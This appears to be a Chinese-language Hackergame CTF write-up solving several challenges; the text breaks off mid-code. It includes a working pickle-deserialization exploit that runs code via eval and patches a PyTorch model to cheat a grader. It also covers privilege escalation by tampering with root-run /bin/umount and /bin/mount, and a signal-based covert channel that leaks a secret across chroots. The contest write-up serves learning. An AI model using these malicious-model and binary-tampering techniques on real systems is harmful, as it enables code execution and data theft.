题目的标签有些奇怪。不过我想了想，神经网络当然也是网络了，打个 Web 标签也不是不可以吗（笑

打开 `infer.py` 可以看到几个值得注意的地方：

<CH.Section>

<CH.Code lineNumbers={true}>

```python infer.py
...
def infer(pt_file):
    # load input data
    tag_ids = torch.load("dataset/tags_10.pt", map_location="cpu")

    # args
    n_tags = 63
    dim = 8
    img_shape = (64, 64, 3)

    # load model
    model = SimpleGenerativeModel(n_tags=n_tags, dim=dim, img_shape=img_shape)
    model.load_state_dict(torch.load(pt_file, map_location="cpu"))

    # generate noise
    torch.manual_seed(0)
    n_samples = tag_ids.shape[0]
    noise = torch.randn(n_samples, dim)

    # forward
    with torch.no_grad():
        model.eval()
        predictions = model(noise, tag_ids).clamp(0, 1)

    gen_imgs = []
    for i in range(n_samples):
        out_io = io.BytesIO()
        matplotlib.image.imsave(out_io, predictions[i].numpy(), format="png")
        png_b64 = base64.b64encode(out_io.getvalue()).decode()
        gen_imgs.append(png_b64)

    # save the predictions
    json.dump({"gen_imgs_b64": gen_imgs}, open("/tmp/result.json", "w"))
...
```

```python train.py
import torch
from models import SimpleGenerativeModel

def train():
    # load data
    tag_ids = torch.load("dataset/tags_10.pt")
    pixels = torch.load("dataset/pixels_10.pt")

    # build model
    n_tags = 63
    dim = 8
    scale = 1
    imag_shape = (64, 64, 3)
    model = SimpleGenerativeModel(n_tags=n_tags, dim=dim, img_shape=imag_shape)
    optimizer = torch.optim.AdamW(model.parameters(), lr=1e-2)

    # train loop
    for epoch in range(100):
        model.train()
        optimizer.zero_grad()
        noise = torch.randn(tag_ids.size(0), dim)
        pixels_pred = model(noise=noise, tag_ids=tag_ids)
        loss = ((pixels_pred - pixels) ** 2).mean()
        loss.backward()
        optimizer.step()
        print("epoch {}: loss {}".format(epoch, loss.item()))

    # evaluate
    model.eval()
    torch.manual_seed(0)
    noise = torch.randn(tag_ids.size(0), dim)
    pixels_pred = model(noise=noise, tag_ids=tag_ids).clamp(0, 1)
    loss = ((pixels_pred - pixels) ** 2).mean(axis=(1, 2, 3))
    print("Final loss:")
    for i in range(tag_ids.size(0)):
        print("   {}: {:.5f}".format(i, loss[i].item()))
    print("mean: {:.5f}".format(loss.mean().item()))
    print(" max: {:.5f}".format(loss.max().item()))

    # save model
    torch.save(model.state_dict(), "checkpoint/model.pt")

if __name__ == "__main__":
    train()
```

</CH.Code>

1. [_`torch.manual_seed(0)`_ 把随机数种子给定死了](focus://infer.py#1:34)，我们在训练的时候直接使用这个种子生成出来的第一个噪声就可以，[原始训练脚本在每个 epoch 里都去生成噪声](focus://train.py#21)对于做这道题而言是有害的。
1. 题目最后是[拿 `max loss` 来衡量我们模型好坏的](focus://train.py#38)，但是我们[在模型训练的时候却是用的 `average loss` 来衡量模型的好坏](focus://train.py#23:26)。

:::danger

对于 _`torch.manual_seed(0)`_ 而言，在 GPU 上生成的随机数和在 CPU 上生成的随机数是不同的。这是一个很大的坑。我把我训练了一段时间的模型交上去的时候才发现这个问题。你需要在 CPU 上生成随机数然后再把它复制到 GPU 上。（然而浪费的算力和碳排放已经无法挽回了。~~不过给这道题训练模型本身就不值得~~

:::

然后我就把这几点不足之处都修正了，改成 GPU 训练，调了半天超参，最后也没能把 `max loss` 给降到 `0.0005`. 啊对，我还换了几次优化器，一通魔改，最后发现效果都不如 `AdamW` 好。

</CH.Section>

### 失败的尝试

后来想了想，可能需要构造一个模型来实现 RCE. 毕竟模型的加载是不安全的。 pytorch 内部使用不安全的 `pickle` 来加载模型。

那么，我们直接把答案JSON 文件 `print` 出来不就完了。但是 pytorch 接下来会报错，那我就直接调用 `sys.exit` 退出程序呗。

直接把  JSON 贴进 Python 程序里不可行，还要再转义，于是我直接又给它套了一层 base64.

```python
import pickle

class Exploit:
    def __reduce__(self):
        return (eval, (r"(print(__import__('base64').urlsafe_b64decode('BASE64串').decode()),__import__('sys').exit(0))[0]",))


with open("data.pt", "wb") as f:
    data = Exploit()
    pickle.dump(data, f)
```

然后本地运行成功了。但是交上去却报错了。我还发了个邮件问组委会，得到的回答是：

> 经过确认，题目环境没有问题，您目前的 payload 得到这样的提示是预期的。祝  参赛愉快。 

我左思右想也没想出为什么。于是我写了一个更加 `hacky` 的版本来过掉这道题。

比赛结束之后看了别人的 Write Up 我才知道是要把结果写到 `result.json` 里面去。我一直以为只要像 `infer.py` 结尾那样把它 `print` 出来就行。

### 成功拿到 flag

这是一个非常 Hacky 的版本。

- 它不会让 `infer.py` 异常退出
-  `pytorch` 会正常的，顺利的加载模型
- `infer.py` 会看似正常的调用我们的模型
- 总体而言，我们没有改变 `infer.py` 的执行流程

首先，我们把原来的模型解包，得到 `archive` 文件夹，其中有一个 `data.pkl` 存储了状态字典，`data.pkl` 内引用了压缩包里的其他几个文件。

我们先构造一段填充合法权重的代码：

```python fill_weight.py
import pickle
import torch

model = torch.load("orig_model.pt")
fff = [(k, f'torch.ones({tuple(v.shape)})') for k, v in model.items()]
print(str(fff).replace("'torch", "torch").replace(")'", ')'))
```

得到

```python
[('tag_encoder.embedding.weight', torch.ones((63, 8))), ('model.0.weight', torch.ones((8, 16))), ('model.0.bias', torch.ones((8,))), ('model.2.weight', torch.ones((8, 8))), ('model.2.bias', torch.ones((8,))), ('model.4.weight', torch.ones((12288, 8))), ('model.4.bias', torch.ones((12288,)))]
```

给它包上 `OrderedDict`:

```python
__import__('collections').OrderedDict([('tag_encoder.embedding.weight', torch.ones((63, 8))), ('model.0.weight', torch.ones((8, 16))), ('model.0.bias', torch.ones((8,))), ('model.2.weight', torch.ones((8, 8))), ('model.2.bias', torch.ones((8,))), ('model.4.weight', torch.ones((12288, 8))), ('model.4.bias', torch.ones((12288,)))])
```

然后我们构造 payload:

<CH.Section>

```python payload.py
import pickle

class Exploit:
    def __reduce__(self):
        return (eval, ("(0,setattr(__import__('models').SimpleGenerativeModel, '__call__', lambda *x: __import__('torch').load('dataset/pixels_10.pt')),上面的那段OrderedDict抄到这里)[-1]",))

with open("data.pt", "wb") as f:
    data = Exploit()
    pickle.dump(data, f, protocol=2)
```

我们直接引入 `models.py` 里的 _`SimpleGenerativeModel`_， 把它的 _`__call__`_ 篡改为 _`lambda *x: __import__('torch').load('dataset/pixels_10.pt')`_. 

也就是说， `infer.py` 在调用模型的时候，我们会直接把磁盘上保存的原始图像数据返回给它。

除此之外，我们的 payload 在执行的时候，会把一个合适的状态字典返回给 pytorch 的加载函数，pytorch 不会做出任何抱怨。

调用 `payload.py` 生成的 `data.pt` 并不是最终结果，最后还要写个 shell 脚本把生成的 payload 重新打包：

</CH.Section>

```shell
#/bin/bash

cp data.pt archive/data.pkl
rm payload.pt
zip -r payload.pt archive
```

把 `payload.pt` 传上去就通过了

## 光与影

:::question

冒险，就要不断向前！

在寂静的神秘星球上，继续前进，探寻 flag 的奥秘吧！

提示：题目代码编译和场景渲染需要一段时间（取决于你的机器配置），请耐心等待。如果你看到 "Your WebGL context has  lost." 的提示，则可能需要更换浏览器或环境。目前我们已知在 Linux 环境下，使用 Intel 核显的 Chrome/Chromium  用户可能无法正常渲染。

:::

先把整个网站下载下来，方便我们编辑。什么？你问我为什么不用 Chromium 的 Overrides 功能？？？我身为卑微的 Linux 用户用 Chromium 打开这个有毒的页面就直接卡死！气死我了。可惜 Firefox 没有 Overrides 功能。

WebGL 啊， WebGL. 看不懂。。。没学过。。随便改改代码吧。


代码里有几个又臭又长的 `tiSDF` 函数，我盲才 flag 的玄机就藏在这些函数里面。但是 `t5SDF` 这个函数却短的离谱。


```glsl fragment-shader.glsl
float t5SDF(vec3 p, vec3 b, float r) {
  vec3 q = abs(p) - b;
  return length(max(q,0.0)) + min(max(q.x,max(q.y,q.z)),0.0) - r;
}
```

我们直接把 `t5SDF` 的返回值改成 0 试试：

```glsl fragment-shader.glsl
float t5SDF(vec3 p, vec3 b, float r) {
  vec3 q = abs(p) - b;
  return .0;
}
```

整个屏幕直接变黑了。这显然不是我们想要的。



把返回值修改成 `100.0` , flag 到手了



## 链上记忆大师（记忆练习）

:::question

听说你在区块链上部署的智能合约有过目不忘的能力。

:::

我简单地看了一下题目，大概意思就是让我们写一个智能合约记住给定的数字。

```solidity challenge1.sol
pragma solidity =0.8.17;

interface MemoryMaster {
    function memorize(uint256 n) external;
    function recall() external view returns (uint256);
}

contract Challenge {
    function test(MemoryMaster m, uint256 n) external returns (bool) {
        m.memorize(n);
        uint256 recalled = m.recall();
        return recalled == n;
    }
}
```

第一小问会点 Solidity 就能写出来。

<CH.Section>

<CH.Code>

```solidity player1.sol
pragma solidity =0.8.17;

contract MemoryMaster {
    uint256 storedData;
    function memorize(uint256 n) external {
        storedData = n;
    }
    function recall() external view returns (uint256) {
        return storedData;
    }
}
```

```python compile.py
from solcx import compile_source
import json

for i in 1, 2, 3:
    compiled_sol = compile_source(open(f'challenge{i}.sol').read(), output_values=['abi', 'bin'])
    contract_interface = compiled_sol['<stdin>:Challenge']
    bytecode = contract_interface['bin']
    abi = contract_interface['abi']
    json.dump((bytecode, abi), open(f'contract{i}.json', 'w'))

for i in (1,):
    compiled_sol = compile_source(open(f'player{i}.sol').read(), output_values=['abi', 'bin'])
    contract_interface = compiled_sol['<stdin>:MemoryMaster']
    bytecode = contract_interface['bin']
    abi = contract_interface['abi']
    json.dump((bytecode, abi), open(f'player{i}.json', 'w'))
```
</CH.Code>

稍微改了一下 [`compile.py`](focus://compile.py#1:20), 让它一起把我编写的 `player1.sol` 编译掉。

</CH.Section>

把编译出来的 16 进制码交上去，第一问就过了。

## 传达不到的文件

:::question

为什么会变成这样呢？第一次有了 `04111` 权限的可执行文件，有了 `0400` 权限的 flag 文件，两份快乐的事情重合在一起；而这两份快乐，又给我带来更多的快乐。得到的，本该是……（被打死）

------

探索虚拟环境，拿到两个 flag：flag1 在 `/chall` 中，flag2 在 `/flag2` 中。

你可以在下面列出的两种方法中任选其一来连接题目：

- 点击下面的 "打开/下载题目" 按钮通过网页终端与远程交互。如果采用这种方法，在正常情况下，你不需要手动输入 token。
- 在 Linux、macOS、WSL 或 Git Bash 等本地终端中使用 `stty raw -echo; nc 202.38.93.111 10338; stty sane` 命令来连接题目。如果采用这种方法，你必须手动输入 token（复制粘贴也可）。**注意，输入的 token 不会被显示，输入结束后按 Ctrl-J 即可开始题目。**

无论采用哪种方法连接题目，启动题目均需要数秒时间，出现黑屏是正常现象，请耐心等待。

:::

### 读不到

一开始我以为 `chall` 会有缓冲区溢出漏洞，结果用下面的命令一试发现没有。

```shell
/ $ yes 'y' | tr -d '\n' | ./chall
Give me your FLAG or I'll EXIT!
FLAG: / $ 
```

我们发现 `/bin/busybox` 在我们的控制范围之内，其实`/bin` 和 `/sbin`目录里的文件都在我们的控制范围之内。

通过读取 `/etc/init.d/rcS` 我们发现在退出当前的 shell 之后 `rcS` 还会执行 `umount` 和 `poweroff` 命令(注意是以 root 身份执行)。

下面是探索过程的 shell 录制(不是视频).

<AsciinemaPlayer src="./explore.cast" rows={20} cols={90}/>
[](explore.cast)

那么我们就可以通过篡改 `/bin/mount` 来把 `/chall` 读出来, base64 编码，然后在自己的笔记本上解码得到 `./chall` 文件。

<AsciinemaPlayer src="./umount.cast" rows={20} cols={90}/>
[](umount.cast)

在本地解码完成后，我们执行一下 `strings chall | grep flag` 就能拿到 flag 了。

```shell
$ strings chall | grep flag
flag{ptr4ce_m3_4nd_1_w1ll_4lways_b3_th3r3_f0r_u}
tmp_flag
flag{ptr4ce_m3_4nd_1_w1ll_4lways_b3_th3r3_f0r_u}
tmp_flag
```

flag 提到了 ptrace, 看来我的解法是非预期解法

### 打不开

这个就比上一个更简单了，改一下 `/bin/umount` ，把文件 `cat` 出来就完了。

<AsciinemaPlayer src="./flag2.cast" rows={20} cols={90}/>
[](flag2.cast)

当然这解法应该还是非预期解法。

## 看不见的彼方

:::question

虽然看见的是同一片天空（指运行在同一个 kernel 上），脚踏着的是同一块土地（指使用同一个用户执行），他们之间却再也无法见到彼此——因为那名为 `chroot(2)` 的牢笼，他们再也无法相见。为了不让他们私下串通，魔王甚至用 `seccomp(2)`，把他们调用与 socket 相关的和调试相关的系统调用的权利也剥夺了去。

但即使无法看到对方所在的彼方，他们相信，他们的心意仍然是相通的。即使心处 `chroot(2)` 的牢笼，身缚 `seccomp(2)` 的锁链，他们仍然可以将自己想表达的话传达给对方。

------

你需要上传两个 x86_64 架构的 Linux 程序。为了方便描述，我们称之为 Alice 和 Bob。两个程序会在独立的 chroot 环境中运行。

在 Alice 的环境中，secret 存储在 `/secret` 中，可以直接读取，但是 Alice 的标准输出和标准错误会被直接丢弃；在 Bob 的环境中，没有 flag，但是 Bob 的标准输出和标准错误会被返回到网页中。`/secret` 的内容每次运行都会随机生成，仅当 Bob 的标准输出输出与 Alice 的 `/secret` 内容相同的情况下，你才能够获得 flag。

执行环境为 Debian 11，两个程序文件合计大小需要在 10M 以下，最长允许运行十秒。特别地，如果你看到 "Failed to  execute program."  或其他类似错误，那么说明你的程序需要的运行时库可能在环境中不存在，你需要想办法在满足大小限制的前提下让你的程序能够顺利运行。

[构建环境相关的 Dockerfile 附件](https://hack.lug.ustc.edu.cn/media/30b4b248-eff5-5ec0-b5a7-310ca91550f3/kanata.zip)

:::

Google 搜索一下 `linux ipc`, 点进[第一个搜索结果](https://tldp.org/LDP/tlk/ipc/ipc.html)， 发现这道题似乎只能用信号来通信了，那就用信号来写一个吧。

<CH.Scrollycoding lineNumbers={true} style={{'--ch-scrollycoding-sticker-width': '50%' }} rows={27}>

<CH.Code>

```c  common.h
#define PID_START 1
#define PID_END 800

// to send one hex digit 0bxyzw
// send zw
// send xy

#define SIG00 SIGUSR1
#define SIG01 SIGUSR2
#define SIG10 SIGURG
#define SIG11 SIGCHLD
```

</CH.Code>

#### Common

- 我们先给 Alice 和 Bob 定义一个公共的头文件 `common.h`
- 因为 Alice 和 Bob 不知道双方的 PID, 所以我们需要扫描一个 PID 段来让 Alice 和 Bob 建立连接
- 我们把 `SIGWINCH` 作为一个特殊的信号, 用来建立连接（Connection）
    - 之所以选这个信号是因为一般进程对该信号不做任何响应
    - 也就是说，我们乱发信号不会产生不良后果（比如杀死系统进程）
- 我们用一个 Unix 信号来表示两个位
- 那么为了发送一个 16 进制数，我们就需要两个 Unix 信号
- 我们就随便挑四个倒霉的 Unix 信号来传递消息

---

<CH.Code>

```c alice.c
#include <ctype.h>
#include <signal.h>
#include <stdbool.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <unistd.h>
#include "common.h"

volatile pid_t pid = 0;
volatile bool start = false;

char buffer[65];
```

```c  common.h
#define PID_START 10
#define PID_END 500

// to send one hex digit 0bxyzw
// send zw
// send xy

#define SIG00 SIGUSR1
#define SIG01 SIGUSR2
#define SIG10 SIGURG
#define SIG11 SIGCHLD
```

</CH.Code>

#### Alice setup

- 引入头文件
- 定义 _`pid`_ 变量存储 Bob 的 PID
- 定义 _`start`_ 变量存储是否可以开始发送
- 定义个 _`buffer`_ 来存读进来的机密

---

<CH.Code>

```c alice.c focus=16:35
#include <ctype.h>
#include <signal.h>
#include <stdbool.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <unistd.h>
#include "common.h"

volatile pid_t pid = 0;
volatile bool start = false;

char buffer[65];

void handler(int sig, siginfo_t* info, void* context) {
  if (sig == SIGWINCH) {
    if (pid == 0) {
      pid = info->si_pid;
      start = true;
    }
  }
}

int main() {
  // register actions
  struct sigaction act = {0};
  act.sa_sigaction = &handler;
  act.sa_flags = SA_SIGINFO;
  if (0 != sigaction(SIGWINCH, &act, NULL)) {
    return -1;
  }
  // 未完待续
}
```


</CH.Code>

#### Alice's Signal Handler

- 让 Alice 响应 _`SIGWINCH`_ 信号
- 如果收到 _`SIGWINCH`_， 就把发送者的 _`pid`_ 记下来
- 并且把开始发送的变量设置为 _`true`_

---

<CH.Code>

```c alice.c focus=33:42
#include <ctype.h>
#include <signal.h>
#include <stdbool.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <unistd.h>
#include "common.h"

volatile pid_t pid = 0;
volatile bool start = false;

char buffer[65];

void handler(int sig, siginfo_t* info, void* context) {
  if (sig == SIGWINCH) {
    if (pid == 0) {
      pid = info->si_pid;
      start = true;
    }
  }
}

int main() {
  // register actions
  struct sigaction act = {0};
  act.sa_sigaction = &handler;
  act.sa_flags = SA_SIGINFO;
  if (0 != sigaction(SIGWINCH, &act, NULL)) {
    return -1;
  }
  // read secret
  FILE* file;
  file = fopen("./secret", "r");  // assume success
  fread(buffer, 64, 1, file);
  printf("Read");
  // wait for bob
  while (!start) {
    // do nothing
  }
  // 未完待续
}
```

</CH.Code>

#### Alice Reads Secret

- 让 Alice 把机密读出来。
- 通过阅读 `server.py` 我们能知道机密是一串长度为 64 的16进制数。
- 在 Bob 通知 Alice 发送机密之前，什么都不做

---

<CH.Code>

```c alice.c focus=25:42
#include <ctype.h>
#include <signal.h>
#include <stdbool.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <unistd.h>
#include "common.h"

volatile pid_t pid = 0;
volatile bool start = false;

char buffer[65];

void handler(int sig, siginfo_t* info, void* context) {
  if (sig == SIGWINCH) {
    if (pid == 0) {
      pid = info->si_pid;
      start = true;
    }
  }
}

void send_half_hex(int val) {
  switch (val) {
    case 0b00:
      kill(pid, SIG00);
      break;
    case 0b01:
      kill(pid, SIG01);
      break;
    case 0b10:
      kill(pid, SIG10);
      break;
    case 0b11:
      kill(pid, SIG11);
      break;
    default:
      break;
  }
}

int main() {
  // register actions
  struct sigaction act = {0};
  act.sa_sigaction = &handler;
  act.sa_flags = SA_SIGINFO;
  if (0 != sigaction(SIGWINCH, &act, NULL)) {
    return -1;
  }
  // read secret
  FILE* file;
  file = fopen("./secret", "r");  // assume success
  fread(buffer, 64, 1, file);
  printf("Read");
  // wait for bob
  while (!start) {
    // do nothing
  }
  // 未完待续
}
```


</CH.Code>

#### Alice's Send Func, P1

- 定义 _`send_half_hex`_ 这个函数来发送半个16进制数。
- 通过 _`kill`_ 发送信号, 没啥好说的

---

<CH.Code>

```c alice.c focus=44:52
#include <ctype.h>
#include <signal.h>
#include <stdbool.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <unistd.h>
#include "common.h"

volatile pid_t pid = 0;
volatile bool start = false;

char buffer[65];

void handler(int sig, siginfo_t* info, void* context) {
  if (sig == SIGWINCH) {
    if (pid == 0) {
      pid = info->si_pid;
      start = true;
    }
  }
}

void send_half_hex(int val) {
  switch (val) {
    case 0b00:
      kill(pid, SIG00);
      break;
    case 0b01:
      kill(pid, SIG01);
      break;
    case 0b10:
      kill(pid, SIG10);
      break;
    case 0b11:
      kill(pid, SIG11);
      break;
    default:
      break;
  }
}

void send_hex(int hex) {
  int low = hex & 0b0011;
  int high = hex >> 2;
  // send low first
  send_half_hex(low);
  usleep(100);
  send_half_hex(high);
  usleep(100);
}

int main() {
  // register actions
  struct sigaction act = {0};
  act.sa_sigaction = &handler;
  act.sa_flags = SA_SIGINFO;
  if (0 != sigaction(SIGWINCH, &act, NULL)) {
    return -1;
  }
  // read secret
  FILE* file;
  file = fopen("./secret", "r");  // assume success
  fread(buffer, 64, 1, file);
  printf("Read");
  // wait for bob
  while (!start) {
    // do nothing
  }
  // 未完待续
}
```

</CH.Code>

#### Alice's Send Func, P2

- 定义 _`send_hex`_ 这个函数来发送一个16进制数。
- 先发送低两位，后发送高两位
- 注意两次发送之间要等待一段时间
	- 因为 Unix 信号是异步的
	- 这里涉及异步跨进程通信
	- 等待 `100ms` 来防止奇奇怪怪的事情发生

---

<CH.Code>

```c alice.c focus=71:83
#include <ctype.h>
#include <signal.h>
#include <stdbool.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <unistd.h>
#include "common.h"

volatile pid_t pid = 0;
volatile bool start = false;

char buffer[65];

void handler(int sig, siginfo_t* info, void* context) {
  if (sig == SIGWINCH) {
    if (pid == 0) {
      pid = info->si_pid;
      start = true;
    }
  }
}

void send_half_hex(int val) {
  switch (val) {
    case 0b00:
      kill(pid, SIG00);
      break;
    case 0b01:
      kill(pid, SIG01);
      break;
    case 0b10:
      kill(pid, SIG10);
      break;
    case 0b11:
      kill(pid, SIG11);
      break;
    default:
      break;
  }
}

void send_hex(int hex) {
  int low = hex & 0b0011;
  int high = hex >> 2;
  // send low first
  send_half_hex(low);
  usleep(100);
  send_half_hex(high);
  usleep(100);
}

int main() {
  // register actions
  struct sigaction act = {0};
  act.sa_sigaction = &handler;
  act.sa_flags = SA_SIGINFO;
  if (0 != sigaction(SIGWINCH, &act, NULL)) {
    return -1;
  }
  // read secret
  FILE* file;
  file = fopen("./secret", "r");  // assume success
  fread(buffer, 64, 1, file);
  printf("Read");
  // wait for bob
  while (!start) {
    // do nothing
  }
  // send data
  for (int i = 0, hex; i < 64; i++) {
    // get the hex digit
    char ch = buffer[i];
    if (isalpha(ch)) {
      hex = ch - 'a' + 10;
    } else {
      hex = ch - '0';
    }
    printf("send hex %d\n", hex);
    fflush(stdout);
    send_hex(hex);
  }
  return 0;
}
```

</CH.Code>

#### Alice Ready

- _`start`_ 被置为 _`true`_ 之后， Alice 就开始发送 flag
- 注意要把 ASCII 字符先转成数字
- 那么 Alice 这边就完事了

---

#### Bob Setup

```c bob.c 
#include <ctype.h>
#include <signal.h>
#include <stdbool.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <unistd.h>
#include "common.h"

volatile pid_t pid = 0;
volatile bool success = false;
volatile bool write_low = true;
volatile int cnt = 0;
volatile int buffer[64];
pid_t self;
```

- 照例，引入一大堆头文件
- 定义 _`pid`_ 变量，其实用不到
- 定义 _`success`_ 变量存储是否已经全部读完
- 定义个 _`write_low`_ 来存接下来要读的是高两位还是低两位
- 定义 _`cnt`_ 来存储已经读入的字数
- 定义 _`buffer`_ 来存储已经读入的16进制数
- 定义 _`self`_ 来存自己的 PID，防止自己给自己发信号

---

```c bob.c focus=20:50
#include <ctype.h>
#include <signal.h>
#include <stdbool.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <unistd.h>
#include "common.h"

volatile pid_t pid = 0;
volatile bool success = false;
volatile bool write_low = true;
volatile int cnt = 0;
volatile int buffer[64];
pid_t self;

// 未完待续

int main() {
  self = getpid();
  // we need to set it to \0 manually
  //   buffer[64] = '\0';
  memset((void*)buffer, 0, sizeof(buffer));
  // register action
  struct sigaction act = {0};
  act.sa_sigaction = &handler;
  act.sa_flags = SA_SIGINFO;
  sigaction(SIGWINCH, &act, NULL);
  sigaction(SIG00, &act, NULL);
  sigaction(SIG01, &act, NULL);
  sigaction(SIG10, &act, NULL);
  sigaction(SIG11, &act, NULL);
  // broadcast SIGWINCH
  pid_t i = PID_START;
  while (!success) {
    if (i != self)
      kill(i, SIGWINCH);
    i++;
    if (i > PID_END)
      i = PID_START;
  }
  // output
  output();
  return 0;
}
```

#### Bob's Main

- 清空 _`buffer`_ (其实没必要)
- 注册 _`sigaction`_ 的 _`handler`_
- 广播 _`SIGWINCH`_ 信号
- 如果成功，调用 _`output`_ 输出结果

---

```c bob.c focus=20:41
#include <ctype.h>
#include <signal.h>
#include <stdbool.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <unistd.h>
#include "common.h"

volatile pid_t pid = 0;
volatile bool success = false;
volatile bool write_low = true;
volatile int cnt = 0;
volatile int buffer[64];
pid_t self;

// 未完待续

void handler(int sig, siginfo_t* info, void* context) {
  switch (sig) {
    case SIGWINCH:
      pid = info->si_pid;
      break;
    case SIG00:
      read_half_hex(0b00);
      break;
    case SIG01:
      read_half_hex(0b01);
      break;
    case SIG10:
      read_half_hex(0b10);
      break;
    case SIG11:
      read_half_hex(0b11);
      break;
    default:
      exit(222);
      break;
  }
}

int main() {
  self = getpid();
  // we need to set it to \0 manually
  //   buffer[64] = '\0';
  memset((void*)buffer, 0, sizeof(buffer));
  // register action
  struct sigaction act = {0};
  act.sa_sigaction = &handler;
  act.sa_flags = SA_SIGINFO;
  sigaction(SIGWINCH, &act, NULL);
  sigaction(SIG00, &act, NULL);
  sigaction(SIG01, &act, NULL);
  sigaction(SIG10, &act, NULL);
  sigaction(SIG11, &act, NULL);
  // broadcast SIGWINCH
  pid_t i = PID_START;
  while (!success) {
    if (i != self)
      kill(i, SIGWINCH);
    i++;
    if (i > PID_END)
      i = PID_START;
  }
  // output
  output();
  return 0;
}
```

#### Bob's Signal Handler

- 处理信号
- 调用函数把信号翻译成半个16进制数

---

```c bob.c focus=18:37
#include <ctype.h>
#include <signal.h>
#include <stdbool.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <unistd.h>
#include "common.h"

volatile pid_t pid = 0;
volatile bool success = false;
volatile bool write_low = true;
volatile int cnt = 0;
volatile int buffer[64];
pid_t self;

void read_half_hex(int val) {
  if (write_low) {
    buffer[cnt] = val;
    write_low = false;
  } else {
    write_low = true;
    buffer[cnt] += val << 2;
    ++cnt;
    if (cnt == 64)
      success = true;
  }
}

void output() {
  for (int i = 0; i < 64; i++) {
    char ch = buffer[i] >= 10 ? buffer[i] - 10 + 'a' : buffer[i] + '0';
    putchar(ch);
  }
  puts("");
}

void handler(int sig, siginfo_t* info, void* context) {
  switch (sig) {
    case SIGWINCH:
      pid = info->si_pid;
      break;
    case SIG00:
      read_half_hex(0b00);
      break;
    case SIG01:
      read_half_hex(0b01);
      break;
    case SIG10:
      read_half_hex(0b10);
      break;
    case SIG11:
      read_half_hex(0b11);
      break;
    default:
      exit(222);
      break;
  }
}

int main() {
  self = getpid();
  // we need to set it to \0 manually
  //   buffer[64] = '\0';
  memset((void*)buffer, 0, sizeof(buffer));
  // register action
  struct sigaction act = {0};
  act.sa_sigaction = &handler;
  act.sa_flags = SA_SIGINFO;
  sigaction(SIGWINCH, &act, NULL);
  sigaction(SIG00, &act, NULL);
  sigaction(SIG01, &act, NULL);
  sigaction(SIG10, &act, NULL);
  sigaction(SIG11, &act, NULL);
  // broadcast SIGWINCH
  pid_t i = PID_START;
  while (!success) {
    if (i != self)
      kill(i, SIGWINCH);
    i++;
    if (i > PID_END)
      i = PID_START;
  }
  // output
  output();
  return 0;
}
```

#### Bob's Decoder & Output

- 把读入的数字按照 _`write_low`_ 写到 _`buffer[cnt]`_ 的高两位/低两位中去
- 记得反转 _`write_low`_
- 如果本次写的是高两位，_`++cnt`_
- 如果写了 64 个数字了，就成功 :tada:

---

#### Full Code

<CH.Code>

```c bob.c
#include <ctype.h>
#include <signal.h>
#include <stdbool.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <unistd.h>
#include "common.h"

volatile pid_t pid = 0;
volatile bool success = false;
volatile bool write_low = true;
volatile int cnt = 0;
volatile int buffer[64];
pid_t self;

void read_half_hex(int val) {
  if (write_low) {
    buffer[cnt] = val;
    write_low = false;
  } else {
    write_low = true;
    buffer[cnt] += val << 2;
    ++cnt;
    if (cnt == 64)
      success = true;
  }
}

void handler(int sig, siginfo_t* info, void* context) {
  switch (sig) {
    case SIGWINCH:
      pid = info->si_pid;
      break;
    case SIG00:
      read_half_hex(0b00);
      break;
    case SIG01:
      read_half_hex(0b01);
      break;
    case SIG10:
      read_half_hex(0b10);
      break;
    case SIG11:
      read_half_hex(0b11);
      break;
    default:
      exit(222);
      break;
  }
}

void output() {
  for (int i = 0; i < 64; i++) {
    char ch = buffer[i] >= 10 ? buffer[i] - 10 + 'a' : buffer[i] + '0';
    putchar(ch);
  }
  puts("");
}

int main() {
  self = getpid();
  // we need to set it to \0 manually
  //   buffer[64] = '\0';
  memset((void*)buffer, 0, sizeof(buffer));
  // register action
  struct sigaction act = {0};
  act.sa_sigaction = &handler;
  act.sa_flags = SA_SIGINFO;
  sigaction(SIGWINCH, &act, NULL);
  sigaction(SIG00, &act, NULL);
  sigaction(SIG01, &act, NULL);
  sigaction(SIG10, &act, NULL);
  sigaction(SIG11, &act, NULL);
  // broadcast SIGWINCH
  pid_t i = PID_START;
  while (!success) {
    if (i != self)
      kill(i, SIGWINCH);
    i++;
    if (i > PID_END)
      i = PID_START;
  }
  // output
  output();
  return 0;
}
```

```c alice.c
#include <ctype.h>
#include <signal.h>
#include <stdbool.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/types.h>
#include <unistd.h>
#include "common.h"

volatile pid_t pid = 0;
volatile bool start = false;

char buffer[65];

void handler(int sig, siginfo_t* info, void* context) {
  if (sig == SIGWINCH) {
    if (pid == 0) {
      pid = info->si_pid;
      start = true;
    }
  }
}

void send_hex(int hex);
void send_half_hex(int val);

int main() {
  // register actions
  struct sigaction act = {0};
  act.sa_sigaction = &handler;
  act.sa_flags = SA_SIGINFO;
  if (0 != sigaction(SIGWINCH, &act, NULL)) {
    return -1;
  }
  // read secret
  FILE* file;
  file = fopen("./secret", "r");  // assume success
  fread(buffer, 64, 1, file);
  printf("Read");
  // wait for bob
  while (!start) {
    // do nothing
  }
  // send data
  for (int i = 0, hex; i < 64; i++) {
    // get the hex digit
    char ch = buffer[i];
    if (isalpha(ch)) {
      hex = ch - 'a' + 10;
    } else {
      hex = ch - '0';
    }
    printf("send hex %d\n", hex);
    fflush(stdout);
    send_hex(hex);
  }
  return 0;
}

void send_hex(int hex) {
  int low = hex & 0b0011;
  int high = hex >> 2;
  // send low first
  send_half_hex(low);
  usleep(100);
  send_half_hex(high);
  usleep(100);
}

void send_half_hex(int val) {
  switch (val) {
    case 0b00:
      kill(pid, SIG00);
      break;
    case 0b01:
      kill(pid, SIG01);
